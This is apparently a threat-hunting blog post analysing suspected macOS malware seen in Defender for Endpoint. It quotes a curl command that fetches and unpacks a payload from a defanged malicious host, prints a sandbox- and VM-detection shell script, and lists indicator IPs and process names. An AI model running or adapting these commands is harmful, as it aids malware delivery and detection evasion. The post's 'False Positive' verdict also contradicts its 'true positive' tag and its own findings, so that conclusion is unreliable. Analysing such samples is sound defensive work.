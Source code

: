 ```yaml
---
title: Mac Malware?
date: 2022-05-19 11:39 +0200
categories: [Hunting, MDE]
tags: [mde, hunting, true positive]
---
```


Today we investigate some strange discovery actions by processes on a macbook

## The Alert

In the essence this alert was showing multiple different processes doing very similar actions, for sake of simplicity we
will focus on one.
In most cases the process [xpcproxy](https://www.unix.com/man-page/osx/8/xpcproxy/) was used to run a sub process which
in turn started some bash commands.
For this investigation I put xpcproxy out of scope as it did not seem to be part of a malicious execution chain (my mac
knowledge is basic)
This xpcproxy would run an executable for example apadecoded and this in turn would run new processes example:

```bash
/bin/sh /var/folders/zz/zyxvpxvq6csfxvn_n0000000000000/T/451CEB63-C438-40C3-899F-0BE4F425F074
```

apadecoded itself looks already strange enough and is also found on VT, but what is this "
451CEB63-C438-40C3-899F-0BE4F425F074"?

This executable runs a download via curl of some additional code from external and extracts it to "
/private/var/tmp/helpexecd/helpexecd"

```bash
/usr/bin/curl -s -L -o /var/tmp/helpexecd.tgz hxxp://cdn[.]eniqdix[.]icu/static/s3/exec6625/helpexecd[.]tgz
tar -xzf /var/tmp/helpexecd.tgz -C /var/tmp/helpexecd/
```

And then it runs this helpexecd which amongst other things runs this bash script:

```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){ ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){(($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){ local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${VM_LIST}"||echo "${ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){ ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${VM_LIST}";};is_hw_data_vm(){ system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${VM_LIST}";};is_vm(){ is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){ is_vm&&echo 1||echo 0;};main "${@}"'
```

On closer inspection and a bit of unwrapping, it looks a lot like this helpexecd is trying to figure out if it's running
in a sandbox.
It checks for what hardware it's running on, good indication of sandbox evasion.

```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){
 ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){
    (($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){
 local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${
    ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${
    VM_LIST}"||echo "${
    ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){
 ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${
    VM_LIST}";};is_hw_data_vm(){
 system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${
    VM_LIST}";};is_vm(){
 is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){
 is_vm&&echo 1||echo 0;};main "${
    @}"'
```

{% include mermaid_start.liquid %}
flowchart TD;
kernel_task --> launchd;
launchd --> xpcproxy;
xpcproxy --> |run| apadecoded;
apadecoded --> |run| 451CEB63-C438-40C3-899F-0BE4F425F074;
apadecoded --> |run| DFBDC5FD-3F69-472A-832B-C8C394560BC4;
apadecoded --> |run| AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09;
451CEB63-C438-40C3-899F-0BE4F425F074 --> curl;
DFBDC5FD-3F69-472A-832B-C8C394560BC4 --> curl;
AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09 --> curl;
curl --> cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz;
cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> |download| 89.187.162.142;
cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> |download| 89.187.162.134;
89.187.162.142 --> |download| /private/var/tmp/helpexecd/helpexecd.tgz;
89.187.162.134 --> |download| /private/var/tmp/helpexecd/helpexecd.tgz;
/private/var/tmp/helpexecd/helpexecd.tgz --> |extract && run| helpexecd;
helpexecd --> 35.160.226.50;
helpexecd --> 34.217.226.241;
style apadecoded stroke-dasharray: 88.5 44
style helpexecd stroke-dasharray: 88.5 44
{% include mermaid_end.liquid %}

## Hunting deeper

If we look at more cases of the same endpoint we can see that the same thing that apadecoded does, what's more
interesting is, that there are many processes starting the exact same behaviour.
Here is a list of observed ones:

* canonistical
* noble
* odontolite
* intrinsicalness
* TestDate
* SysUpdater
* leam
* recommitment
* TestDateDaemon
* apadecode
* apadecoded

## Verdict

| Indicator                              | Thoughts                                                                                                            | Verdict |
|----------------------------------------|---------------------------------------------------------------------------------------------------------------------|---------|
| CMD started by User                    | Either compromise of host, or legitimate action by user                                                             | -10%    |

**Verdict: False Positive**

## Next Steps

